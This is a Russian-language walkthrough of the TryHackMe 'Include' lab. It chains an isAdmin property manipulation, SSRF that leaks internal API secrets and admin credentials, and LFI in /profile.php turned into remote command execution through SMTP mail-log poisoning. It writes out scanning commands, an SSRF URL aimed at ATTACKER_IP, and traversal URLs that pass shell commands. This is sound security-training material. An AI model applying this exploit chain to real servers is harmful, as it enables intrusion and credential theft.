# Include

> Связанная эксплуатация двух веб-приложений: изменение серверного состояния до административного, SSRF к внутреннему API, получение credentials и преобразование LFI в RCE через SMTP log poisoning.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Ubuntu Linux |
| Категория | Web |
| Основные техники | Object property manipulation / Prototype Pollution, SSRF, credential disclosure, LFI, SMTP log poisoning, RCE |

## Краткое резюме

На порту `4000` приложение Node.js/Express позволяло через форму активности изменить серверное свойство `isAdmin`, после чего открывались административные разделы. Функция смены фонового изображения выполняла серверный запрос к указанному URL, что подтвердило SSRF. Через внутренние API были получены секретные данные и учётные записи администраторов.

Административные credentials позволили войти в PHP-приложение на `50000/tcp`. Параметр `img` в `/profile.php` допускал включение локальных файлов. PHP-payload был записан в почтовый журнал через SMTP, после чего `/var/log/mail.log` был подключён через LFI. Это преобразовало чтение локальных файлов в удалённое выполнение команд от имени `www-data` и позволило получить второй флаг.

## Разведка

### Первичное сканирование TCP-портов

На первом этапе было выполнено полное сканирование TCP-портов целевой машины с определением версий запущенных служб и операционной системы с помощью `Nmap`:

```bash
nmap -n -sV -O -p- TARGET_IP
```

Результат сканирования:

```text
Nmap scan report for TARGET_IP
Host is up (0.00068s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```

Были обнаружены следующие открытые порты:

| Порт | Служба |
| --- | --- |
| 22/tcp | SSH |
| 25/tcp | SMTP |
| 110/tcp | POP3 |
| 143/tcp | IMAP |
| 993/tcp | IMAPS |
| 995/tcp | POP3S |
| 4000/tcp | HTTP — Node.js/Express |
| 50000/tcp | HTTP — Apache/PHP |

Наибольший интерес представляли два веб-приложения, работающие на портах `4000` и `50000`.

### Исследование веб-приложения на порту 50000

#### Перечисление веб-ресурсов

Для поиска доступных директорий и файлов использовалась утилита `Gobuster`:

```bash
gobuster dir -u http://TARGET_IP:50000/ -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,html,js,txt,bak,old,conf,zip,sql,log
```

Наиболее значимые результаты:

```text
/.php                 (Status: 403) [Size: 282]
/.html                (Status: 403) [Size: 282]
/index.php            (Status: 200) [Size: 1611]
/login.php            (Status: 200) [Size: 2044]
/templates            (Status: 301) [Size: 329]
/profile.php          (Status: 302) [Size: 0]
/uploads              (Status: 301) [Size: 327]
/api.php              (Status: 500) [Size: 0]
/javascript           (Status: 301) [Size: 330]
/logout.php           (Status: 302) [Size: 0]
/auth.php             (Status: 200) [Size: 0]
/dashboard.php        (Status: 302) [Size: 1225]
/phpmyadmin           (Status: 403) [Size: 282]
/server-status        (Status: 403) [Size: 282]
```

Дополнительное ручное исследование директорий `/uploads` и `/templates` не выявило информации, представляющей интерес на данном этапе.

#### Анализ веб-приложения

На главной странице приложения, доступного по адресу `http://TARGET_IP:50000`, отображается предупреждающее сообщение, а также ссылки на главную страницу и страницу авторизации.



Ресурс `/login.php` содержит форму авторизации.



##### Анализ формы авторизации

Для исследования механизма авторизации в поля формы были введены произвольные значения, после чего соответствующий HTTP-запрос был перехвачен с помощью модуля `Proxy` в `Burp Suite`.



Анализ запроса показал, что приложение отправляет на `/login.php` POST-запрос, содержащий параметры `username` и `password`.

В ходе дальнейшего тестирования признаков возможности эксплуатации SQL-инъекции через данную форму обнаружено не было.

### Исследование веб-приложения на порту 4000

#### Перечисление веб-ресурсов

Для поиска доступных директорий и файлов также использовалась утилита `Gobuster`:

```bash
gobuster dir -u http://TARGET_IP:4000/ -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,html,js,txt,bak,old,conf,zip,sql,log
```

Наиболее значимые результаты:

```text
/index                (Status: 302) [Size: 29] []] /signin]
/images               (Status: 301) [Size: 179] []] /images/]
/signup               (Status: 500) [Size: 1246]
/signin               (Status: 200) [Size: 1295]
/fonts                (Status: 301) [Size: 177]
```

Ручное исследование обнаруженных ресурсов не выявило дополнительной значимой информации.

#### Анализ веб-приложения

На главной странице веб-приложения расположена форма авторизации, а также указаны учетные данные, которые можно использовать для входа.



После авторизации с использованием предоставленных учетных данных приложение перенаправляет пользователя на страницу с профилями.



Изначально доступен только собственный профиль пользователя:

```text
http://TARGET_IP:4000/friend/1
```

При этом изменение идентификатора в URL позволяет обращаться к профилям других пользователей, например путем замены значения `1` на другой идентификатор.

На странице профиля также присутствует форма для предложения активности.



## Обнаружение и эксплуатация уязвимостей

### Эксплуатация веб-приложения на порту 4000

#### Исследование формы активности

Для анализа работы формы в ее поля были введены произвольные значения, после чего HTTP-запрос был перехвачен с помощью `Burp Suite`.



Анализ запроса показал, что данные отправляются на следующий ресурс:

```text
/recommend-activity/1
```

Кроме того, были определены параметры, передаваемые приложением в теле запроса.

Для проверки возможности эксплуатации **Prototype Pollution** была предпринята попытка изменить свойство `isAdmin` с `false` на `true`.

Для этого были указаны следующие значения:

```text
Activity Type: isAdmin
Activity Name: true
```

После отправки формы и обновления страницы пользователю стали доступны ранее недоступные административные разделы — настройки и API.



Таким образом, удалось изменить состояние свойства `isAdmin` и получить доступ к административному функционалу приложения.

#### Получение доступа к административному функционалу

Ресурс `/admin/api` содержал памятку с информацией о взаимодействии с API приложения.



На ресурсе `/admin/settings` располагалась форма, позволяющая изменить фоновое изображение профиля.



Для проверки формы на наличие **Server-Side Request Forgery (SSRF)** на машине атакующего был запущен слушатель `Netcat` на порту `80`.

В форму был передан URL, указывающий на машину атакующего:

```text
http://ATTACKER_IP:80/image.jpg
```

После отправки формы на машину атакующего поступил HTTP-запрос от целевого сервера.



Полученный запрос подтвердил наличие SSRF: приложение самостоятельно обращалось к URL, переданному пользователем.

#### Эксплуатация SSRF

После подтверждения SSRF в уязвимую форму был передан первый запрос, указанный на странице `/admin/api`.



В ответ была получена строка, закодированная в Base64.

После декодирования были получены следующие данные:

```json
{"secretKey":"superSecretKey123","confidentialInfo":"This is very confidential information. Handle with care."}
```

Затем через ту же уязвимость был выполнен второй запрос, представленный на странице `/admin/api`.



Ответ также представлял собой строку в формате Base64. После ее декодирования были получены учетные данные административных пользователей:

```json
{"ReviewAppUsername":"admin","ReviewAppPassword":"**********","SysMonAppUsername":"administrator","SysMonAppPassword":"**********"}
```

Таким образом, эксплуатация SSRF позволила обратиться к внутренним API-ресурсам и получить административные учетные данные для обоих приложений.

### Эксплуатация веб-приложения на порту 50000

Используя полученные на предыдущем этапе учетные данные, была выполнена авторизация в административную учетную запись приложения на порту `50000`.

После успешной авторизации был получен доступ к ресурсу `/dashboard.php`, где находился первый флаг.

В ходе анализа исходного кода страницы также было установлено, что приложение загружает указанный пользователем файл с сервера.



Дальнейшее исследование показало возможность управления путем к файлу через параметр `img` ресурса `/profile.php`. Это позволяло использовать **Local File Inclusion (LFI)** для чтения локальных файлов сервера.

Согласно результатам первоначального сканирования, на целевой машине также функционировал почтовый сервер. Это создавало возможность использовать технику **LFI-to-RCE via Mail Log Poisoning**, при которой PHP-код внедряется в журнал почтового сервера, а затем исполняется посредством его подключения через LFI.

### Получение удаленного выполнения команд

#### Отравление журнала почтового сервера

Для дальнейшей эксплуатации требовалось добиться записи PHP-payload в журнал почтового сервера.

Для этого было установлено соединение с SMTP-сервисом посредством `Telnet`, после чего была выполнена попытка отправки письма с использованием специально сформированного значения, содержащего payload.



В результате переданный payload был записан в журнал почтового сервера.

#### Преобразование LFI в RCE

После отравления журнала файл `/var/log/mail.log` был подключен через уязвимый параметр `img`:

```text
view-source:http://TARGET_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//var/log/mail.log&cmd=CMD
```

В данном запросе:

- `....//....//....//....//....//....//....//....//....//....//var/log/mail.log` — путь к отравленному журналу почтового сервера;
- `cmd` — параметр, передаваемый внедренному PHP-коду;
- `CMD` — системная команда, которую необходимо выполнить;
- `/profile.php?img=` — уязвимый к LFI параметр приложения.

После подключения отравленного журнала PHP-код, содержащийся в нем, был обработан сервером, в результате чего появилась возможность выполнения произвольных системных команд.

Для определения контекста выполнения была использована команда:

```bash
id
```

Полученный результат:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm),27(sudo)
```

Таким образом, было подтверждено успешное удаленное выполнение команд от имени пользователя `www-data`.

### Получение второго флага

Согласно условию задания, второй флаг находился в директории:

```text
/var/www/html
```

Для просмотра содержимого директории была выполнена команда:

```bash
ls -a /var/www/html
```

через следующий запрос:

```text
view-source:http://TARGET_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//var/log/mail.log&cmd=ls%20-a%20/var/www/html
```

После определения имени необходимого файла его содержимое было получено с помощью команды:

```bash
cat /var/www/html/FILENAME
```

Соответствующий запрос:

```text
view-source:http://TARGET_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//var/log/mail.log&cmd=cat%20/var/www/html/FILENAME
```

В результате был получен второй флаг.

## Итог

В ходе прохождения машины **Include** была последовательно скомпрометирована цепочка из двух взаимосвязанных веб-приложений.

Первоначальное исследование приложения на порту `4000` позволило обнаружить возможность манипулирования пользовательскими объектами и изменить свойство `isAdmin`, благодаря чему был получен доступ к административным разделам. Дальнейшая эксплуатация SSRF позволила выполнять серверные запросы к внутренним API-ресурсам и получить учетные данные административных пользователей.

Полученные учетные данные были использованы для авторизации во втором веб-приложении на порту `50000`. После получения первого флага анализ функциональности приложения выявил возможность локального подключения файлов через параметр `img`.

Наличие на системе почтового сервера позволило объединить LFI с техникой **SMTP Log Poisoning**: PHP-payload был записан в журнал почтового сервера, после чего журнал был подключен через уязвимый параметр. Это привело к выполнению PHP-кода и позволило преобразовать LFI в полноценное удаленное выполнение системных команд.

Финальная цепочка эксплуатации имела следующий вид:

```text
Enumeration
    ↓
Profile ID manipulation
    ↓
Prototype Pollution
    ↓
Administrative access
    ↓
SSRF
    ↓
Internal API access
    ↓
Administrative credentials
    ↓
Authentication in the PHP application
    ↓
LFI
    ↓
SMTP Log Poisoning
    ↓
Remote Code Execution
    ↓
Flag retrieval
```

Данная машина демонстрирует, насколько опасной может быть комбинация нескольких уязвимостей, каждая из которых по отдельности имеет ограниченное воздействие. Возможность изменения состояния объекта привела к административному доступу, SSRF раскрыл внутренние данные приложения, а LFI в сочетании с контролируемой записью в системный журнал позволил добиться выполнения произвольного кода на сервере.

Ключевым фактором успешной компрометации стала именно возможность объединить отдельные недостатки приложений в единую последовательную цепочку эксплуатации.

## Ключевые выводы

- Манипуляция серверным свойством авторизации (`isAdmin`) не должна зависеть от пользовательских полей формы.
- SSRF становится особенно опасной, когда внутренние API доверяют сетевому расположению и возвращают секреты без дополнительной аутентификации.
- LFI может перейти в RCE, если атакующий способен предварительно записать исполняемый PHP-код в подключаемый файл, например системный журнал.
- Почтовые сервисы расширяют поверхность атаки веб-приложения, если их журналы доступны процессу PHP и могут быть включены через уязвимый параметр.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Полное сканирование TCP-портов |
| `Gobuster` | Перечисление ресурсов двух веб-приложений |
| `Burp Suite` | Анализ и модификация HTTP-запросов |
| `Netcat` | Подтверждение SSRF |
| `Telnet` | Взаимодействие с SMTP для log poisoning |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
